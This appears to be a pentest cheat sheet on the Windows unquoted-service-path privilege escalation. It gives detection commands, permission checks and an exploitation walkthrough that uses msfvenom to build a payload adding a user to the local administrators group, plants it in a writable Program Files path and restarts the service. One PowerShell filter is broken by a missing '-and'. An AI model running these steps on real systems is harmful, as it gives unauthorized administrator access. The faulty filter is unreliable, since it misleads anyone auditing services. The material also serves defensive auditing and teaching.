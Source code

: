 ### Overview

This is a common privilege escalation vulnerability in Windows services caused by improper handling of file paths that include spaces. When a service executable's path is **not wrapped in quotation marks**, Windows may misinterpret the command and attempt to execute a different file earlier in the directory hierarchy

#### Scenario

if the path to a service binary is :

```cmd
C:\Program Files\My App\bin\service.exe
```

And it is **not enclosed in quotes**, windows will try to execute in the following order

1.  ``C:\Program.exe``
2.  ``C:\Program Files\My.exe``
3.  ``C:\Program Files\My App\bin\service.exe``

if an attackercan drop a milicious binary at any of these higher-precedence pah and has write access, it may executed instead of the intended service binary

---

### Detection

To find all services with potentially vulnerable paths, use the following commands

####   List all services with path, name and start mode

```powershell
Get-WmiObject Win32_Service | Select-Object Name, DisplayName, PathName, StartMode
```

#### Filter for auto-start services

```powershell
Get-WmiObject Win32_Service | Where-Object {$_.StartMode -eq "Auto"} | Select-Object Name, DisplayName, PathName
```

#### Filter out services in Windows Directory

```powershell
Get-WmiObject Win32_Service | Where-Object {
    $_.StartMode -eq "Auto" -and
    $_.PathName -notmatch "C:\\Windows"
} | Select-Object Name, DisplayName, PathName
```

#### Refine: exclude quoted paths and windows directory

```powershell
Get-WmiObject Win32_Service | Where-Object {
    $_.StartMode -eq "Auto" -and
    $_.PathName -notmatch "C:\\Windows"
    $_.PathName -notmatch '^"'
} | Select-Object Name, DisplayName, PathName
```

---

### Detection (CMD Alternative)

#### List all services with binary paths using sc

```cmd
for /f "tokens=2 delims=:" %s in ('sc query state^= all ^| findstr /i "SERVICE_NAME"') do @sc qc %s | findstr /i "SERVICE_NAME BINARY_PATH_NAME"
```

#### Filter for auto-start services and extract binary paths(verbose)

```cmd
for /f "tokens=2 delims=:" %s in ('sc query state^= all ^| findstr /i "SERVICE_NAME"') do @sc qc %s | findstr /i "SERVICE_NAME BINARY_PATH_NAME" | findstr /v /i "C:\Windows"
```

#### Check one specific service(example)

```cmd
sc qc "AbyssWebServer"
```

---

### Permissions

#### using ``icacls`` to check the permissions

```cmd
icacls "C:\Program Files\NETFATE\Registry Cleaner\RegistryCleanerSrv.exe"
```

```cmd
icacls "C:\Program FIles\NETGATE"
```

#### Using Sysinternals ``accesschk64`` to check write, vulnerable and user access

```cmd
accesschk64.exe -wvu "C:\Program Files\NETGATE"
```

---

### Exploitaion Steps

#### 1.  Query the service

```cmd
sc query <service_name>
```

#### 2.  Stop the service

```cmd
sc stop <service_name>
```

#### 3.  Confirm it's stopped

```cmd
sc query <service_name>
```

#### 4. Create Maicious payload using ``msfvenom``

```bash
msfvenom -p windows/exec CMD="net localgroup administrators u1 /add" -f exe > Registry.exe
```

#### 5.  Drop the malicious ``.exe`` in writable path

```cmd
C:\Program Files\NETGATE\Registry.exe
```

#### 6.  Restart the service

```cmd
sc start <service_name>
```